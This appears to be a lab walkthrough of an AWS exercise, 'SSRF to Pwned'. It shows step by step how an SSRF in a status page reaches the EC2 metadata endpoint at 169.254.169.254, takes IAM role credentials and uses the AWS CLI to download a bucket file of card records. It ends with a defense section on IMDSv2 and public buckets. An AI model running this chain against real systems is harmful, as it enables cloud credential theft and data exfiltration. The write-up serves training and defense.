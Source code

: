 ```yaml
---
title: SSRF to Pwned
description: SSRF to Pwned
image:
  path: aws.jpg
categories:
- Pwned Labs
- AWS
layout: post
media_subpath: /assets/posts/labs/pwnedlabs/aws/
tags:
- pwnedlabs
- aws
- cloud
---
```

# Scenario
Rumors are swirling on hacker forums about a potential breach at Huge Logistics. Your team has been monitoring these conversations closely, and Huge Logistics has asked you to assess the security of their website. Beyond the surface-level assessment, you're also to investigate links to their cloud infrastructure, mapping out any potential risk exposure. The question isn't just if they've been compromised, but how deep the rabbit hole goes.

# Walkthrough
The website `http://app.huge-logistics.com/`

![](ssrf-to-pwned-1.png)

If we check source code, we see AWS S3 bucket `huge-logistics-storage.s3.amazonaws.com`

![](ssrf-to-pwned-2.png)

If we visit the `https://huge-logistics-storage.s3.amazonaws.com`, we see the content of the bucket

![](ssrf-to-pwned-3.png)

There are `web` and `backup` folders. `backup` contains `cc-export2.txt` and `flag.txt`, but we can't access them. 

If we continue investigating the website, we find interesting `Status` page, http://app.huge-logistics.com/status/status.php

![](ssrf-to-pwned-4.png)

If we click check, we see that we are redirected to the same page with `name` parameter: `http://app.huge-logistics.com/status/status.php?name=hugelogisticsstatus.com`. The output shows the service status. Based on this information, we can assume that server uses `name` parameter and makes requests to the defined value, which could be indicator of SSRF.  

![](ssrf-to-pwned-5.png)

We can guess that the website is hosted on an EC2 instance, which have an Instance Metadata Service (IMDS). The Amazon EC2 IMDS provides data about the instance that allow for configuration and management. Commonly, EC2 instances are configured with an IAM (Identity and Access Management) role, that allows the instance to interact with other AWS services. Admins can also retrieve and use the role's temporary security credentials (access key ID, secret access key, and session token) from the instance metadata.

Let's try exploiting SSRF by requesting link-local IP address `169.254.169.254` that hosts the metadata service. Thus, set the value of `name` parameter to `169.254.169.254/latest/meta-data/` and send the request. The response confirms that this is EC2 instance

![](ssrf-to-pwned-6.png)

Let's continue with exploitation by checking `169.254.169.254/latest/meta-data/iam/info`, which should reveal configured IAM role: `MetapwnedS3Access`

![](ssrf-to-pwned-7.png)

Now, let's access credentials via `169.254.169.254/latest/meta-data/iam/security-credentials/MetapwnedS3Access`

![](ssrf-to-pwned-8.png)

By using acquired credentials, we can authenticate
```
aws configure
aws configure set aws_session_token "TOKEN_VALUE"
```

We can confirm that we are operating under `MetapwnedS3Access` role
```
└─$ aws sts get-caller-identity                            
{
    "UserId": "AROARQVIRZ4UCHIUOGHDS:i-0199bf97fb9d996f1",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/MetapwnedS3Access/i-0199bf97fb9d996f1"
}
```

Let's list the bucket
```
└─$ aws s3 ls huge-logistics-storage                    
                           PRE backup/
                           PRE web/

```

Now we can download the content of the backup folder 
```
└─$ aws s3 cp s3://huge-logistics-storage/backup/cc-export2.txt -
VISA, 4929854977595222, 5/2028, 733
VISA, 4532044427558124, 7/2024, 111
VISA, 4539773096403690, 12/2028, 429
VISA, 4485480371143975, 4/2027, 744
VISA, 4556373594815152, 5/2024, 188
VISA, 4532459642763863, 10/2023, 808
VISA, 4838078625735408, 3/2024, 586
<SNIP>
```

# Defense
This part is from [lab's defense section](https://pwnedlabs.io/labs/ssrf-to-pwned)

It's recommended to use version 2, which requires authentication, in case instance metadata is needed. Attacker who managed to gain access to the EC2 instance by another means would still be able to access IMDSv2 and access any stored credentials. If an EC2 instance has already been created with instance metadata, but it's not used in an environment, it can be disabled using Example 2 of the AWS [guide](https://docs.aws.amazon.com/cli/latest/reference/ec2/modify-instance-metadata-options.html)

Also, Jeff Barr announced (November 2023) that AWS have changed the default configuration so that all console Quick Start launches will use IMDSv2 only. In his [AWS blog article](https://aws.amazon.com/blogs/aws/amazon-ec2-instance-metadata-service-imdsv2-by-default/), that after mid-2024, newly released Amazon EC2 instance types will use only version 2 of the EC2 Instance Metadata Service (IMDSv2).
```
Metadata version

You can run V1 and V2, or just V2. If you do not specify a value, the default is V1 and V2. If no value is specified the value of the source template will still be used. If the template value is not specified then the default API value will be used.
```

Prior to the changes, versions 1 and 2 of the instance metadata service would still be available by default (unless specified otherwise) when creating EC2 instances. Version 1 of the AWS instance metadata service (IMDSv1) does not require authentication. Any process that can make HTTP requests to http://169.254.169.254/ could access the IMDSv2 data.

Another issue that led to this breach is that the entire bucket is listable by anyone in the world. Despite a warning about this setting, there are many cases of S3 buckets online where this setting has been enabled. S3 buckets allow files to be made publicly available without having to grant excessive permissions. Also, S3 bucket wasn'nt named properly according to its use, and stored sensitive data on the same bucket as public web server files.

![](ssrf-to-pwned-9.png)
